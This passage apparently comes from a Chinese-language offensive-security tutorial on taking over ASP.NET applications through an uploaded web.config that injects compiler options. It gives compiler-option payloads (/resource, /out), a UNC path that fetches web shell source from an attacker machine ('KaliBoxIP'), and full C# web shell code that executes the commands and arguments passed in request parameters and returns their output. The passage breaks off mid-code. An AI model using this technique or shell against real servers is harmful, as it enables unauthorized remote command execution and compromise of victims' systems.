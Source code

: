 除了可以在创建`Web shell`之后更改`web.config`文件以删除`compilerOptions`属性以允许正常的编译过程之外，还应该在我们的`web.config`文件上传之外创建`Web shell`。

应该注意的是，`webshell.txt`中的代码将嵌入到包含二进制数据的`webshell.aspx`的中间。由于这不是`webshell`的副本，因此可以用作获取访问权限的第一阶段。

**无法访问 SMB 的解决方案**

如果目标无法通过`SMB`进行通信，则可以使用允许的扩展名上载`Web shell`，以将其包含在`/resource`选项中：

```plain
/resource:"C:\appdata\wwwroot\myapp\attachment\myshell.config" /out:"C:\appdata\wwwroot\myapp\webshell.aspx" #
```

##### 2.1.2 接管现有的 ASPX 文件

当`ASPX`文件存在于所上传`web.config`文件的同一文件夹中时，可以修改编译过程进行接管操作。

了解应用程序和虚拟目录对于使用此技术非常重要。我将使用以下示例解释这一点：

`web.config`文件可以在`C:\appdata\wwwroot\myapp\attachment\`上传，`file.aspx`也存在于同一路径中，可通过以下 URL 访问：

```plain
https://victim.com/myapp/attachment/file.aspx
```

现在可以使用以下编译器选项来接管此文件：

```plain
\\KaliBoxIP\Public\webshellcs.txt #
```

或者：

```plain
"C:\appdata\wwwroot\myapp\attachment\webshellcs.txt" #
```

`webshellcs.txt`文件的内容是：

```plain
namespace ASP
{
    using System;
    [System.Runtime.CompilerServices.CompilerGlobalScopeAttribute()]
    public class attachment_file_aspx : global::System.Web.UI.Page, System.Web.IHttpHandler
    {
        private void @__Render__control1(System.Web.UI.HtmlTextWriter @__w, System.Web.UI.Control parameterContainer)
        {
            if (!String.IsNullOrEmpty(Request["cmd"]))
            {
                System.Diagnostics.Process process = new System.Diagnostics.Process();
                process.StartInfo.FileName = Request["cmd"];
                process.StartInfo.Arguments = Request["arg"];
                process.StartInfo.UseShellExecute = false;
                process.StartInfo.RedirectStandardOutput = true;
                process.StartInfo.RedirectStandardError = true;
                process.Start();
                //* Read the output (or the error)
                string output = process.StandardOutput.ReadToEnd();
                @__w.Write("Result:<br><pre>");
                @__w.Write(output);
            }
            else
            {
                @__w.Write("Use:\"?cmd=cmd.exe&arg=/c dir\" as an example!");
            }
        }

        [System.Diagnostics.DebuggerNonUserCodeAttribute()]
        protected override void FrameworkInitialize()
```
